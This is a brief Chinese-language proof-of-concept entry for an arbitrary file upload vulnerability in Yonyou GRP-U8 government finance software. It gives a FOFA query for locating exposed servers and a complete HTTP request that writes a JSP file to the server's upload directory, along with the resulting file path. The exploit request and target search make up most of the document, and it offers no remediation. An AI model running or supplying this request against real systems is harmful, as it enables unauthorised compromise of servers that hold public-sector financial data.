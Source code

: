 ## 用友GRP-U8-FileUpload任意文件上传

用友GRP-U8行政事业财务管理软件是用友公司专注于电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域专业的财务管理软件。用友 GRP-U8 FileUpload接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。

## fofa

```yaml
app="用友-GRP-U8"
```

## poc

```yaml
POST /servlet/FileUpload?fileName=t.jsp&actionID=update HTTP/1.1
Host: 
Content-Length: 187
Cache-Control: max-age=0
Origin: null
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA8Ee42FOAqdLah9L
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryA8Ee42FOAqdLah9L
Content-Disposition: form-data; name="rfile_name"; filename="2.png"
Content-Type: image/png

111
------WebKitFormBoundaryA8Ee42FOAqdLah9L--
```

上传路径为`/R9iPortal/upload/t.jsp`
